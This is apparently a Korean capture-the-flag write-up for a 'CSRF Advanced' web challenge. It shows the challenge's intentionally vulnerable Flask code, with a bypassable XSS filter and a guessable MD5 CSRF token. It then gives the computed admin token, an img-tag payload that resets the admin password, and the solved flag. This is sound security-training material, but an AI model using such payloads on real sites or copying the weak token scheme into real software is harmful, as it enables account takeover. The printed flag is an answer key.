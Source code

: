 https://honey-push-30b.notion.site/CSRF-Advanced-a007fad75a804636836ddb7715c70152

# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2d676007-5fec-4287-b379-8efe993f2291/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)
CSRF Advanced의 문제 파일을 다운로드 받으면 app.py 파일을 얻을 수 있고 코드는 아래와 같다. 
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.webdriver.common.by import By
from selenium import webdriver
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

users = {
    'guest': 'guest',
    'admin': FLAG
}

session_storage = {}
token_storage = {}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    options = webdriver.ChromeOptions()
    try:
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/login")
        driver.add_cookie(cookie)
        driver.find_element(by=By.NAME, value="username").send_keys("admin")
        driver.find_element(by=By.NAME, value="password").send_keys(users["admin"])
        driver.find_element(by=By.NAME, value="submit").click()
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("user not found");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

@app.route("/change_password")
def change_password():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
        csrf_token = token_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')
    pw = request.args.get("pw", None)
    if pw == None:
        return render_template('change_password.html', csrf_token=csrf_token)
    else:
        if csrf_token != request.args.get("csrftoken", ""):
            return '<script>alert("wrong csrf token");history.go(-1);</script>'
        users[username] = pw
        return '<script>alert("Done");history.go(-1);</script>'

app.run(host="0.0.0.0", port=8000)
```

1. flag 페이지에서 파라미터를 보내면 check_csrf를 거쳐 vuln페이지로 param이 전달되는데 이 때 이 vuln페이지로 전달 될 때 ‘admin’이 로그인한 상태로 전달이 된다.
2. vuln 페이지에서는 xss_filter로 frame,script, on을 필터링하고 있으며 param으로 전달된 값을 그대로 반환해준다.(필터링이 되지 않은 스크립트는 실행이 가능하다.)
3. 로그인 시 session_id가 생성이 되고 이 session_id를 기준으로 username과 csrf_token을 저장한다.
4. 이 때 csrf_token은 생성과정이 username 과 접속 ip주소를 기반으로 md5해싱을 통해 만들기 때문에 추측이 가능하다.
5. session_id는 쿠키에 세팅이 되어있다.
6. session_id와 csrf_token을 기반으로 password를 변경하고 admin 으로 로그인하면 index 페이지에서 flag를 얻을 수 있다.

이 때 csrf_token을 제대로 추측할 수 있는지 실험을 해봤다. guest로 로그인 + 내 ip주소 1.248.181.15를 이용하여 csrf_token을 생성해봤다.

```python
>>> md5(('guest'+'1.248.181.15').encode()).hexdigest()
'e71139421b77aed596870f22cb3f1d82'
----------------------------------------------------------------------------------
<input type="text" value="e71139421b77aed596870f22cb3f1d82" name="csrftoken" hidden>
```

![csrf 토큰 추측이 가능함.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0e2459cd-d20b-4048-bcef-6a2a149ac1c6/csrf_%ED%86%A0%ED%81%B0_%EC%B6%94%EC%B8%A1%EC%9D%B4_%EA%B0%80%EB%8A%A5%ED%95%A8.png)

그 결과 둘의 값이 동일하므로 제대로 추측 성공한 것을 확인할 수 있었다.

즉 flag페이지를 이용하여 접속할 때는 read_url로 인해서 admin + 127.0.0.1 이므로 csrf_token은

```python
>>> md5(('admin'+'127.0.0.1').encode()).hexdigest()
'7505b9c72ab4aa94b1a4ed7b207b67fb'
```

이 될것이다. 

이제 vuln 페이지를 이용해서<img src="127.0.0.1:8000/change_password?pw=admin&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb">를 넣어서 비밀번호를 admin으로 바꿔준 후 admin/admin으로 로그인해주면

![로그인 플래그.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8c425979-9923-4516-bd6d-1a529c02d929/%EB%A1%9C%EA%B7%B8%EC%9D%B8_%ED%94%8C%EB%9E%98%EA%B7%B8.png)

flag 값인****`DH{77bb582329a1b2fc9f8dc2a50b70d586}`** 를 얻을 수 있다.
